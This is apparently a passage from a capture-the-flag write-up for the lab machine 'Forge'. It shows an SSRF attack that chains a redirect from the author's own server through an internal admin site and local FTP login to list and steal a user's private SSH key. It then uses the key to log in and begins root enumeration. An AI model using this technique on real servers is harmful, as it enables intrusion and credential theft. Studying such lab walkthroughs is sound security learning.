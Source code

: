 `http://10.10.14.6/3?f=user.txt` returns the user flag.

Next I’ll try `http://10.10.14.6/3?f=.ssh/`:

```
-rw-------    1 1000     1000          564 May 31 12:35 authorized_keys
-rw-------    1 1000     1000         2590 May 20 08:30 id_rsa
-rw-------    1 1000     1000          564 May 20 08:30 id_rsa.pub 

```

I’ll grab the `id_rsa`.

### SSRF / Redirection Summary

To summarize this attack:

[![](https://0xdfimages.gitlab.io/img/Forge-redirect.png)*Click for full size image*](https://0xdfimages.gitlab.io/img/Forge-redirect.png)
1. I submit `http://10.10.14.6/3?f=.ssh/` as the URL to `/upload` on `forge.htb`.
2. The filter checks, and approves the URL.
3. `forge.htb` requests `/3?.f=.ssh/` from Flask.
4. Flask Returns a 302 redirect to `http://admin.forge.htb/upload?u=ftp://user:heightofsecurity123!@127.0.0.1/.ssh/`. This will send `forge.htb` to `/upload` on `admin.forge.htb`, which can handle FTP, with get parameters to connect to the local FTP server,
5. `admin.forge.htb` requests a listing of the `/.ssh/` directory from FTP.
6. FTP returns the result, through `admin.forge.htb` which returns them to `forge.htb`.
7. `forge.htb` saves the results in the `/uploads` directory with a random name.
8. The URL to that saved file is returned to me.

### SSH

The key works to get a shell as user over SSH:

```

oxdf@parrot$ ssh -i ~/keys/forge-user user@forge.htb      
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-81-generic x86_64)                   ...[snip]...
user@forge:~$

```

## Shell as root

### Enumeration

`sudo -l` gives a clear focus for root:

```

user@forge:~$ sudo -l
Matching Defaults entries for user on forge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user may run the following commands on forge:
    (ALL : ALL) NOPASSWD: /usr/bin/python3 /opt/remote-manage.py

```
